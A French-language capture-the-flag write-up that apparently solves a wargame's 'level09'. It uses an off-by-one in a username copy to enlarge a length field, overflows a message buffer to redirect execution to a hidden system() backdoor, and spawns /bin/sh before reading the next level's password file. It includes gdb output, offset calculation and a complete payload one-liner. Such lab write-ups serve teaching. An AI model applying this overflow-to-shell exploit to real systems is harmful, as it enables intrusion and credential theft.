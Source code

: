 Ce programme est un pseudo messagerie qui demande deux argument user and message.

dans ce programme on ce rend compte qu'une fonction __secret_backdoor__ n'est pas utiliser 

```c
void secret_backdoor(void){
    char buff[128];
    fgets(buff, 128, stdin);
    system(buff);
    return ;
}
```


On vas faire en sorte que le programme aille dans cette fonction et lance dans __system__ un __"/bin/sh"__

Pour ce faire le programme nous donne  a disposition une struct qu'il remplit:

```c
struct msn {
    char message[140];
    char username[40];
    int len;

} msg;
```

l'ordre des argument dans la structure et important, parce que la premiere fonction lancer dans le __main__ -> __set_username()__ prend un input et le copie dans __msn.username__ mais il peux copie jusqu’à 1 caractère trop loin ce qui override __msn.len__.

```c
void set_username(struct msn *msg){
    char buff[128];
    int i;
    memset(buff, 0, 128);
    puts(">: Enter your username");
    printf(">>: ");
    fgets(buff, 128, stdin);
    i = 0;
    while (i < 41 && buff[i]) {
        msg->username[i] = buff[i];
        i++;
    }
    printf(">: Welcome, %s", msg->username);
```

Ceci vas nous permettre de set __msn.len__ a 255 pour la suite.

Ensuit nous avont la fonction __set_msg()__ qui vas copie un input dans __msn.message__ en fonction de __msn.len__. Faut que le buffer de __msn.message__ est que de 140. Du coup avec un __msn.len__ a 255 on vas pouvoir faire un overflow pour executer la fonction __secret_backdoor()__.

Place a la pratique:

Nous allons devoir dans un premier temps récupérer l’adresse de __secret_backdoor()__. Pour ce faire nous allons lancer le programme dans __gdb__ puis regarder a quelle adresse __secret_backdoor__ a était assigner:

```bash
gdb ./level09
(gdb) r
Starting program: /home/users/level09/level09
[...]
[Inferior 1 (process 4192) exited normally]
(gdb) disas secret_backdoor
Dump of assembler code for function secret_backdoor:
   0x000055555555488c <+0>:     push   %rbp
   [...]
End of assembler dump.
(gdb)
```

On trouve donc l'adresse ==0x000055555555488c==

Maintenant toujours depuis __gdb__ nous allons chercher offset de la copie du message:


```bash
(gdb) r < <(python -c "print 'A'*40 + '\xff' + '\n' + 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A'")
[...]
Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
(gdb) info register
[...]
rbp            0x6741356741346741       0x6741356741346741
[...]
(gdb)
```

On obtient donc l'adresse ==0x6741356741346741== sur __rbp__ ce qui donne un offset de __192__. Sauf qu'il faut aussi compter la taille de l'adresse du coup l'offset et donc de 192 + 8 = __200__.

avec c'est information on peux ecrire un one liner python qu'il set __msn.len__ a 255 puis qui overflow __msn.message__ pour acceder a la fonction __secret_backdoor__. Puis lui passer la string __"/bin/sh""__


```bash
(python -c "print 'A'*40 + '\xff' + '\n' + 'B' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00' + '/bin/sh'"; cat) | ./level09
```

Il nous reste plus cas :

```bash
cat /home/users/end/.pass
```